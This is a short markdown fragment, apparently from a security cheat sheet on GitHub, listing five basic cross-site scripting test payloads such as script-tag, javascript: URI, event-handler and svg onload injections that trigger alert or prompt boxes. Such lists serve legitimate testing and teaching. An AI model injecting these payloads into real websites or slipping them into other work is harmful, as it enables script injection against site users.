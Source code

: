 ## XSS

![XSS-variants](https://github.com/user-attachments/assets/0f908703-6b48-4424-acb2-7487e776765d)

### Basics:
```
<script>alert(1)</script>
javascript:alert(1)
"onmouseover="alert(1)
\'-alert(1)//
<svg/onload=prompt(1337);>
```
